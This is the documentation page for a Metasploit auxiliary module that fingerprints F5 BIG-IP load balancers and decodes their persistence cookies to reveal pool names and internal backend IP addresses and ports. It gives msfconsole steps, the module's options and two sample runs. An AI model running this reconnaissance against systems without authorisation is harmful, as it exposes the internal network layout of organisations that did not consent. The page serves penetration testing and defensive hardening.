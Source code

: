 ## Description

This module identifies F5 BIG-IP load balancers and leaks backend information (pool name, routed domain, and backend servers' IP addresses and ports) through cookies inserted by the BIG-IP systems.

For further information:

* [K6917: Overview of BIG-IP persistence cookie encoding](https://support.f5.com/csp/article/K6917)
* [K7784: Configuring BIG-IP cookie encryption (9.x)](https://support.f5.com/csp/article/K7784)
* [K14784: Configuring cookie encryption within the HTTP profile (10.x - 15.x)](https://support.f5.com/csp/article/K14784)
* [K23254150: Configuring cookie encryption for BIG-IP persistence cookies from the cookie persistence profile](https://support.f5.com/csp/article/K23254150)

## Verification Steps

1. Start `msfconsole`
2. Select the module: `use auxiliary/gather/f5_bigip_cookie_disclosure`
3. Select your target(s): `set RHOSTS www.example.com`
4. Run the module: `run`

## Options

  **REQUESTS**

  The number of requests to send. Default value is `10`.

  **RPORT**

  The BIG-IP service port. Default value is `443`.

  **TARGETURI**

  The URI path to test. Default value is `/`.

## Scenarios

### F5 BIP-IP load balancing cookie not found

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS www.example.com
  RHOSTS => www.example.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 93.184.216.34

  [*] Starting request /
  [-] F5 BIG-IP load balancing cookie not found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```

### F5 BIP-IP load balancing cookie found

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS vulnerable-target.com
  RHOSTS => vulnerable-target.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 1.1.1.1

  [*] Starting request /
  [+] F5 BIG-IP load balancing cookie "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool = 1214841098.47873.0000" found
  [+] Load balancing pool name "~DMZ~EXAMPLE~vulnarable-target-443_pool" found
  [+] Backend 10.1.105.72:443 found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > notes

  Notes
  =====

   Time                     Host             Service  Port  Protocol  Type                           Data
   ----                     ----             -------  ----  --------  ----                           ----
   2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_cookie_name   "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool"
   2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_pool_name     "~DMZ~EXAMPLE~vulnarable-target-443_pool"
   2019-08-20 21:21:02 UTC  1.1.1.1                                   f5_load_balancer_backends      [{:host=>"10.1.105.72", :port=>443}]
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```
